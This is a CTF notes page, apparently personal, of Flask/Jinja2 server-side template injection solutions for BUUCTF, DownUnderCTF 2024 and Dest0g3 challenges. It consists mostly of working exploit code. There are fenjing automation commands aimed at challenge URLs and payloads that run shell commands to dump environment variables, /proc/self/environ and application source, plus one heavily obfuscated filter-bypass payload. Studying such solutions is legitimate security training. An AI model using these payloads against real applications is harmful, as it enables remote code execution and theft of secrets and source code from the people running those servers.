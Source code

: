 # 先考虑Fenjing一把梭

## [Flask]SSTI

```
python -m fenjing crack --method GET --inputs name --url 'http://node5.buuoj.cn:28083'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('env').read()}}
```

![image-20240716010107060](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716010107060.png)



## [第三章 web进阶]SSTI

```
python -m fenjing crack --method GET --inputs password --url 'http://b7823c99-0f4a-4a3f-946f-c01c52459482.node5.buuoj.cn:81/'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('cat /app/server.py').read()}}
```

![image-20240716011159944](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716011159944.png)

```
{{''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /proc/self/environ").read()')}}
```

```
{{''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')}}
```



## DownUnderCTF 2024 [web] Parrot the Emu

[DownUnderCTF 2024 | Cook1e (p-pratik.github.io)](https://p-pratik.github.io/posts/ductf'24/)

[Server Side Template Injection (SSTI) In Flask/Jinja2 (payatu.com)](https://payatu.com/blog/server-side-template-injectionssti/)

在环境变量env中找到flag

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
```

fenjing得到的payload：

```
python -m fenjing crack --method POST --inputs user_input --url 'https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev/'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![image-20240716005756767](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716005756767.png)

## EasySSTI

[【Web】Dest0g3 520迎新赛 题解(全)_[dest0g3 520迎新赛\]pharpop-CSDN博客](https://blog.csdn.net/uuzeray/article/details/137777759)

```
{%set%0aid=dict(ind=a,ex=a)|join%}{%set%0app=dict(po=a,p=a)|join%}{%set%0ann=dict(n=a)|join%}{%set%0aenv=dict(env=a)|join%}{%set%0appe=dict(po=a,pen=a)|join%}{%set%0att=dict(t=a)|join%}{%set%0agt=dict(ge=a,t=a)|join%}{%set%0aff=dict(f=a)|join%}{%set%0aooqq=dict(o=a,s=a)|join%}{%set%0afive=(lipsum|string|list)|attr(id)(tt)%}{%set%0ard=dict(re=a,ad=a)|join%}{%set%0athree=(lipsum|string|list)|attr(id)(nn)%}{%set%0aone=(lipsum|string|list)|attr(id)(ff)%}{%set%0ashiba=five*five-three-three-one%}{%set%0axiahuaxian=(lipsum|string|list)|attr(pp)(shiba)%}{%set%0agb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0abin=(xiahuaxian,xiahuaxian,dict(built=a,ins=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0aini=(xiahuaxian,xiahuaxian,dict(in=a,it=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0achcr=(lipsum|attr(gb))|attr(gt)(bin)%}{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(env)|attr(rd)()}}
```

![image-20240716004841315](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716004841315.png)
